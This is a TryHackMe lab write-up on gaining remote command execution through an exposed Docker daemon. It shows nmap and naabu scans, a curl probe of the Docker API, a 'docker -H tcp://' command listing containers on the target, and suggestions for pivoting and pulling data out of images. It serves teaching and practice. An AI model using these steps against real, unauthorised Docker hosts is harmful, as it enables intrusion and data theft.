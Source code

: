 ```yaml
---
title: "Remote Code Execution via Exposed Docker Daemon"
date: 2024-09-25 10:00:00
categories: [Docker,Try-Hack-Me]
tags: [Docker, THM, TryHackMe]
---
```

&nbsp;

## The Docker Engine -TCP Sockets Edition

Recall how Docker uses sockets to communicate between the host operating system and containers in the previous task. Docker can also use TCP sockets to achieve this.

Docker can be remotely administrated. For example, using management tools such as [Portainer](https://www.portainer.io/) or [Jenkins](https://www.jenkins.io/) to deploy containers to test their code (yay, automation!).

## The Vulnerability

The Docker Engine will listen on a port when configured to be run remotely. The Docker Engine is easy to make remotely accessible but difficult to do securely. The vulnerability here is Docker is remotely accessible and allows anyone to execute commands. First, we will need to enumerate.

Enumerating: Finding Out if a Device Has Docker Remotely Accessible

By default, the engine will run on **port 2375.** We can confirm this by performing an Nmap scan against your target (10.10.62.80) from your AttackBox.

```
[iamroot@parrot]$ nmap -sV -p 2375 10.10.62.80
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 21:37 IST
Nmap scan report for 10.10.62.80
Host is up (0.48s latency).

PORT     STATE SERVICE VERSION
2375/tcp open  docker  Docker 20.10.20 (API 1.41)
Service Info: OS: linux

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.58 seconds

```



```
[iamroot@parrot]$ naabu -p - 10.10.62.80

                  __
  ___  ___  ___ _/ /  __ __
 / _ \/ _ \/ _ \/ _ \/ // /
/_//_/\_,_/\_,_/_.__/\_,_/ v2.0.5

		projectdiscovery.io

Use with caution. You are responsible for your actions
Developers assume no liability and are not responsible for any misuse or damage.
[INF] Running CONNECT scan with non root privileges
[INF] Found 3 ports on host 10.10.62.80 (10.10.62.80)
10.10.62.80:2222
10.10.62.80:22
10.10.62.80:2375

```

Looks like it's open; we're going to use the `curl` command to start interacting with the exposed Docker daemon. Confirming that we can access the Docker daemon: `curl http://10.10.62.80:2375/version`


```
[iamroot@parrot]$ curl http://10.10.62.80:2375/version

{"Platform":{"Name":"Docker Engine - Community"},"Components":[{"Name":"Engine","Version":"20.10.20","Details":{"ApiVersion":"1.41","Arch":"amd64","BuildTime":"2022-10-18T18:18:12.000000000+00:00","Experimental":"false","GitCommit":"03df974","GoVersion":"go1.18.7","KernelVersion":"5.15.0-1022-aws","MinAPIVersion":"1.12","Os":"linux"}},{"Name":"containerd","Version":"1.6.8","Details":{"GitCommit":"9cd3357b7fd7218e4aec3eae239db1f68a5a6ec6"}},{"Name":"runc","Version":"1.1.4","Details":{"GitCommit":"v1.1.4-0-g5fd4c4d"}},{"Name":"docker-init","Version":"0.19.0","Details":{"GitCommit":"de40ad0"}}],"Version":"20.10.20","ApiVersion":"1.41","MinAPIVersion":"1.12","GitCommit":"03df974","GoVersion":"go1.18.7","Os":"linux","Arch":"amd64","KernelVersion":"5.15.0-1022-aws","BuildTime":"2022-10-18T18:18:12.000000000+00:00"}

```

## Executing Docker Commands on Our Target

For this, we'll need to tell our version of Docker to send the command to our target (not our own machine). We can add the "-H" switch to our target. To test if we can run commands, we'll list the containers on the target: `docker -H tcp://10.10.62.80:2`

```
[iamroot@parrot]$ docker -H tcp://10.10.62.80:2375 ps

CONTAINER ID   IMAGE        COMMAND               CREATED        STATUS             PORTS                               NAMES
7b7461f9882e   dockertest   "/usr/sbin/sshd -D"   4 months ago   Up About an hour   0.0.0.0:22->22/tcp, :::22->22/tcp   beautiful_pasteur


```

## What Now

Now that we've confirmed that we can execute docker commands on our target, we can do all sorts of things. For example, start containers, stop containers, delete them, or export the contents of the containers for us to analyse further. It is worth recalling the commands covered in [Intro to Docker](https://tryhackme.com/room/introtodockerk8pdqk). However, I've included some commands that you may wish to explore:


| **Command  <br>** | **Description  <br>**                                                                                                                         |
| ----------------- | --------------------------------------------------------------------------------------------------------------------------------------------- |
| network ls        | Used to list the networks of containers, we could use this <br>to discover other applications running and pivot to them <br>from our machine! |
| images            | List images used by containers; data can also be exfiltrated <br>by reverse-engineering the image.                                            |
| exec              | Execute a command on a container.                                                                                                             |
| run               | Run a container.                                                                                                                              |


